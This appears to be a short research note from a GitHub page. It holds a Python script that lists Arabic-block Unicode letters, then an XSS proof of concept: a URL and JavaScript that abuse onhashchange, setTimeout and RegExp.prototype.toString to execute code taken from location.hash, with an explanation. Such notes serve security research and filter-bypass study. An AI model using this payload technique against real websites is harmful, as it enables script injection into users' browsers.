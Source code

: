 ```
import sys
import unicodedata

for i in range(0x600, 0x700):
    c = chr(i)
    category = unicodedata.category(c)
    name = ''
    try :
        name = unicodedata.name(c)
    except:
        pass
    if category == 'Lo' and ' WITH ' not in name:
        cb = c.encode('utf-8')
        sys.stdout.buffer.write(cb + b"\n")
```

xss
https://terjanq.me/xss.php?js=onhashchange=setTimeout;Object.prototype.toString=RegExp.prototype.toString;Object.prototype.source=location.hash;location.hash=null;#1/-alert(location.href)/
```javascript
onhashchange=setTimeout;
Object.prototype.toString=RegExp.prototype.toString;
Object.prototype.source=location.hash;
location.hash=null
```
Explanation:
* onhashchange passes an object to setTimeout
* Regex.prototype.toString returns a string /[source]/[flags]
* Object.prototype.toString=Regex.prototype.toString
* Object.prototype.source = '#1/-alert(location.href)/'
* {}.toString() prints /#1/-alert(location.href)//
* setTimeout(object) casts an object to string and evaluates it 
It's similar to onerror=eval technique by @garethheyes, but is universal over different browsers


